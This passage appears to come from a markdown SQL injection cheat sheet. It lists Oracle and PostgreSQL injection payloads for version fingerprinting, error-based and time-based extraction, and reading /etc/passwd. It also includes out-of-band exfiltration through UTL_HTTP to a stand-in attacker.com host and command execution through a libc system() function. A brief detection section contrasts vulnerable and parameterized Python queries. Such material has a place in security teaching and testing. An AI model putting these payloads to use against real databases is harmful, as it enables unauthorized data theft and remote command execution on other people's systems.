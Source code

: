 ### Oracle-Specific Techniques
```sql
-- Information gathering
' UNION SELECT banner, null FROM v$version--
' UNION SELECT user, null FROM dual--

-- Error-based extraction
' AND (SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(58)||(SELECT user FROM dual)||CHR(62))) FROM dual) IS NOT NULL--

-- Time delays
' AND (SELECT COUNT(*) FROM ALL_USERS t1, ALL_USERS t2, ALL_USERS t3, ALL_USERS t4, ALL_USERS t5) > 0--

-- UTL_HTTP for out-of-band
' UNION SELECT UTL_HTTP.request('http://attacker.com/'||user) FROM dual--
```

### PostgreSQL-Specific Techniques
```sql
-- Information gathering  
' UNION SELECT version(), current_database()--
' UNION SELECT current_user, session_user--

-- File operations
' UNION SELECT pg_read_file('/etc/passwd', 0, 1000000)--

-- Command execution (if configured)
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'c' STRICT--
'; SELECT system('id')--

-- Large object functions
'; SELECT lo_import('/etc/passwd', 1337)--
'; SELECT lo_get(1337)--
```

---

## Detection and Prevention

### Detection Techniques

#### 1. Static Code Analysis
```python
# Example of vulnerable code
def get_user(user_id):
    query = f"SELECT * FROM users WHERE id = {user_id}"  # Vulnerable
    return execute_query(query)

# Secure version
def get_user(user_id):
    query = "SELECT * FROM users WHERE id = ?"  # Parameterized
    return execute_query(query, (user_id,))
```
